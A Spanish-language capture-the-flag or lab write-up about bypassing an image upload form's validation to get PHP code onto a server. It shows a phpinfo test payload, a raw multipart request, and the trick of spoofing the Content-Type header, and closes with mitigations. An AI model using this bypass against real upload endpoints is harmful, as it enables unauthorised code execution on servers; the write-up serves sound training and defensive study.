 # Unrestricted File Upload
### A03:2021-Injection

La capacidad de subida de ficheros a un servidor presenta una superficie de ataque para la **inyección de código externo** si no se presentan las validaciones adecuadas. Sin estas, es posible tanto la ejecución de código en servidor como la ejecución de código en clientes.

## Ataque

- **Localización**: /?page=upload

En la vista tenemos un formulario que nos permite subir imágenes, lo que nos puede proporcionar una superficie de ataque para inyectar código propio y ejecutarlo en el servidor.

Comprobamos primero el formulario en si.

```html
<input type="hidden" name="MAX_FILE_SIZE" value="100000">
```
Lo único interesante que encontramos es un input oculto que sirve para pasar a la petición del formulario el tamaño máximo del archivo. Si no existe validación de este parámetro en el servidor, podemos cargar archivos de gran capacidad, provocando una caída de servidor.

Probamos la validación de tipo de fichero.
Tratamos de subir un script en **php** que consta de una función llamado `malicious_file.php`.
```php
 <?php phpinfo(); ?>
```

Al intentar subir el archivo, vemos que de algún modo valida el fichero y no nos lo permite, pero si cambiamos el nombre del archivo a `malicious_file.jpg`, vemos que nos reporta que se ha subido correctamente y nos proporciona una url para acceder a él.

Hemos podido subir nuestro script, pero al ser un fichero **jpg**, el intérprete de php no nos lo va a ejecutar en el servidor.

Vamos a ver en detalle la petición que se realiza para subir el archivo.

```bash
POST /?page=upload HTTP/1.1
Host: 192.168.222.47
Content-Length: 421
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://xxx.xxx.xxx.xxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx.xxx.xxx.xxx/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="uploaded"; filename="malicious_file.jpg"
Content-Type: image/jpeg

<?php phpinfo(); ?>

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF--
```

De todos estos parámetros, vemos que el único posible para validar el archivo es que indica el tipo de contenido del archivo, por lo que editamos la petición para que el archivo subido tenga la extensión **php**, pero el tipo de contenido sea **image/jpeg**. 

Posteamos y obtenemos la flag.

## Mitigaciones
- Validación correcta de archivos: no depender de **mimetypes** ni de la cabecera de contenido, sino con el uso de [**números mágicos**](https://en.wikipedia.org/wiki/List_of_file_signatures).

## Referencias
- [OWASP: Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
